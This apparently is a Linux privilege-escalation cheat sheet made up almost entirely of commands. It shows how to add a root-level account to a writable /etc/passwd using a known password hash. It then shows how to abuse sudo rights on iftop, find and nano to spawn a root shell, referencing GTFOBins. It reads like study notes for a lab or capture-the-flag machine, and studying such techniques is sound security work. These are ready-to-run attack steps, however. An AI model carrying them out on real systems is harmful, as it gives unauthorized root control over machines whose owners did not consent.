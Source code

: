 ## CATEGORY "WEAK FILE PERMESSIONS" - WRITEABLE /ETC/PASSWD
```
ls -l /etc/passwd
openssl passwd test_password
IgClDflgL8ROI
nano /etc/passwd
root:x:0:0:root:/root:/bin/bash
root:??????????????:0:0:root:/root:/bin/bash
root:IgClDflgL8ROI:0:0:root:/root:/bin/bash
su root
```
```
echo 'newroot:IgClDflgL8ROI:0:0:root:/root:/bin/bash' >> /etc/passwd
su newroot
id
whoami && ifconfig
```

## CATEGORY "SUDO" - SHELL ESCAPE BINARIES 
```
https://gtfobins.github.io/
sudo -l 
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
```
```
IFTOP
sudo iftop
press shift + !
type /bin/sh
exit iftop interface: 
press escape , type :q , press enter 
```
```
FIND
sudo find . -exec /bin/sh \; -quit
```
```
NANO
sudo nano -s /bin/sh
press cntr R (^R)
press cntr X (^R^X)
type 
reset; sh 1>&0 2>&0  
```
